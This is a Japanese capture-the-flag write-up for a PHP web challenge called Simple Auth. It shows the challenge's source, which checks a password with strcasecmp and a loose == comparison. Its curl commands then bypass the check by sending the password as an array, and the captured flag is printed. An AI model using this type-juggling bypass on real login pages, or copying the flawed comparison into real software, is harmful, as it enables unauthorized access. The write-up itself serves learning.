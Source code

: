 Q32.Simple Auth 50pt
--------------------

問題
----
> simple vulnerability
> http://ctfq.sweetduet.info:10080/~q32/auth.php
> source


```php
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

解き方
-----

PHPのWeb問です。

とりあえず問題のページにアクセスしてみます。

```html
$ curl http://ctfq.sweetduet.info:10080/~q32/auth.php
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

適当な文字列をフォームに投げてみます。

```html
$ curl -XPOST -d'password=test' http://ctfq.sweetduet.info:10080/~q32/auth.php
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
incorrect...    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

問題文のPHPは正常に動作しています。

`strcasecmp`について調べると、`引数に配列を渡すことで結果がnullになる性質`があるようです。

```php
$ php -r "echo (strcasecmp([], 'a') === null)?'ok':'ng';"
PHP Warning:  strcasecmp() expects parameter 2 to be string, array given in Command line code on line 1
ok
```

今回のケースの脆弱性は`strcasecmpの結果の比較に==を使用していること`といえるので、次のような形になるようにリクエストしてやればよいです。

```php
$ php -r "if (strcasecmp([0], 'FLAG') == 0) echo 'ok'; else echo 'ng';"
PHP Warning:  strcasecmp() expects parameter 1 to be string, array given in Command line code on line 1
ok
```

これを利用して今回は`password`を配列にして適当な値を渡せばよいです。

```php
$ curl -XPOST -d'password[]=test' http://ctfq.sweetduet.info:10080/~q32/auth.php
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
Congratulations! The flag is FLAG_VQcTWEK7zZYzvLhX    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

FLAG
-----
`FLAG_VQcTWEK7zZYzvLhX`

